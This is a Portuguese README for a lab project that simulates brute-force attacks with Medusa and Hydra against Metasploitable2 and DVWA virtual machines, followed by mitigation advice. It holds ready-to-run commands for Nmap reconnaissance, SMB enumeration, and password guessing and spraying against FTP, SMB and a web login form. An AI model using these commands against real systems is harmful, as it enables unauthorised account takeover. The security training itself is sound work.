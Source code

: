 # Simulação: Ataques de Força Bruta com Medusa (Kali + Metasploitable/DVWA)

> **Aviso legal e ético:** Este projeto é estritamente para **ambientes controlados** e fins educacionais. Não execute ataques contra sistemas sem autorização explícita. Uso indevido é crime.

---

## 📌 Resumo
Projeto prático para demonstrar ataques de força bruta (FTP, Web form, SMB) usando **Kali Linux** e **Medusa** em ambiente isolado com **VirtualBox** (Metasploitable2 e DVWA). Inclui: configuração do laboratório, reconhecimento (Nmap), execução de ataques, logs/evidências, e recomendações de mitigação.

---

## 🎯 Objetivos
- Compreender ataques de força bruta em FTP, Web e SMB.
- Usar Kali Linux + Medusa para auditoria em laboratório controlado.
- Documentar procedimentos técnicos com clareza.
- Propor medidas de mitigação.
- Publicar evidências no GitHub como portfólio.

---

## 🧱 Ambiente (setup)
- VirtualBox
- VMs:
  - `KALI-ATTACKER` (Kali Linux)
  - `METASPLOITABLE-ALVO` (Metasploitable2)
  - Opcional: `DVWA-WEB` (DVWA) 
- Rede: **Host-only** (ex.: 192.168.56.0/24) ou **Internal Network**

---

## 🔍 Reconhecimento (Nmap)
Use Nmap para mapear portas e identificar serviços.

```bash
# scan rápido
nmap -sS -Pn -T4 192.168.56.101 -oN nmap_fast.txt

# scan completo (todas portas, versão e OS)
nmap -sS -sV -O -p- 192.168.56.101 -oN nmap_full.txt

# scan focado em serviços relevantes
nmap -p 21,80,139,445 --script vuln,smb-enum-users 192.168.56.101 -oN nmap_services.txt
```

> Resultado esperado: listar serviços FTP (21), HTTP (80), SMB (139/445) e possibilitar enumeração de usuários.

---

## 🗂 Wordlists (exemplos)
Crie a pasta `wordlists/` e adicione listas simples para começar:

- `wordlists/common-usernames.txt`
- `wordlists/small-passwords.txt`
- `wordlists/custom-dict.txt`

Comandos para gerar rapidamente:

```bash
mkdir -p wordlists
echo -e "admin\nmsfadmin\nuser\nguest\ntest" > wordlists/common-usernames.txt
echo -e "123456\npassword\nadmin\nqwerty\nletmein" > wordlists/small-passwords.txt

# combinação simples
for u in admin msfadmin user; do for s in 123 qwe 2025!; do echo "${u}${s}"; done; done > wordlists/custom-dict.txt
```


---

## 🛠 Comandos Medusa — Cenários
> Execute **apenas** contra suas VMs.

### 1) Força bruta FTP (Metasploitable)
```bash
medusa -h 192.168.56.101 -U wordlists/common-usernames.txt -P wordlists/small-passwords.txt -M ftp -t 4 -f
```
- `-t 4`: threads
- `-f`: para ao encontrar sucesso

### 2) Password spraying SMB (usuários enumerados)
Primeiro, obter usuários com `enum4linux`:
```bash
enum4linux -a 192.168.56.101 > enum4linux.txt
```
Spray com Medusa (ajuste módulo conforme versão):
```bash
medusa -h 192.168.56.101 -U wordlists/common-usernames.txt -P wordlists/small-passwords.txt -M smbnt -t 4
```

### 3) Brute force em formulário web (DVWA)
Medusa pode usar `http_form`. Caso não funcione bem, usar Hydra (exemplo abaixo).

```bash
medusa -h 192.168.56.102 -u admin -P wordlists/small-passwords.txt -M http_form \
  -m FORM:username=^USER^&password=^PASS^:POST:/dvwa/vulnerabilities/brute/ -T 4
```
- Ajuste `username`, `password` e a rota do formulário conforme o seu DVWA.

#### Alternativa — Hydra (formulários web)
```bash
hydra -l admin -P wordlists/small-passwords.txt 192.168.56.102 http-post-form \
"/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^:Login failed"
```
- Substitua `Login failed` pelo trecho exato que aparece quando o login falha.

---

## ✅ Validação de acessos (evidências)
Após encontrar credenciais:

- **FTP:** `ftp 192.168.56.101` → login manual com usuário/senha encontrados.
- **SMB:** `smbclient -L //192.168.56.101 -U found_user` e `smbclient //192.168.56.101/share -U user%password`
- **Web:** acessar DVWA com as credenciais no navegador.


---

## 🧾 Logs e arquivos úteis para o repositório
- `desafio-brute-force.md` (este arquivo)
- `wordlists/*`
- `nmap_full.txt`, `nmap_services.txt`
- `enum4linux.txt` (SMB enumeration)
- `medusa_logs.txt` (saída do Medusa)
- `images/` (screenshots organizadas)

---

## 🔐 Recomendações de Mitigação (executável e corporativo)
- Forçar **senhas fortes** (mínimo 12 caracteres, blacklist de senhas comuns).
- Implementar **lockout** após N tentativas (ex.: 5 tentativas em 15 minutos).
- **Rate limiting** e WAF em formulários web.
- Habilitar **MFA** para acessos críticos.
- Monitoramento e alertas (SIEM) para padrões de brute force.
- Minimizar exposição — desabilitar serviços FTP/SMB quando não necessários.
- Políticas de privacidade e rotação de credenciais para contas de serviço.

---

## 📊 Métricas sugeridas (Adicione no relatório para tom executivo)
- Tempo até credencial encontrada
- Número de tentativas por sucesso
- Taxa de tentativas por segundo
- Percentual de credenciais quebradas vs testadas

---

## 📁 Como reproduzir 
1. Restaurar snapshots das VMs.
2. Rodar os scans Nmap (salvar outputs).
3. Executar enumeração SMB (`enum4linux`).
4. Rodar Medusa nos alvos (FTP/SMB/HTTP) com `wordlists/`.
5. Validar acessos manualmente e capturar evidências.

---

## 📎 Referências
- Kali Linux — documentação oficial
- Medusa — documentação oficial
- DVWA — Damn Vulnerable Web Application
- Nmap — manual oficial
- GitHub Markdown — guia de sintaxe

---

## 🔁 Licença
Uso pessoal/educacional — Gustavo Parizi.

---


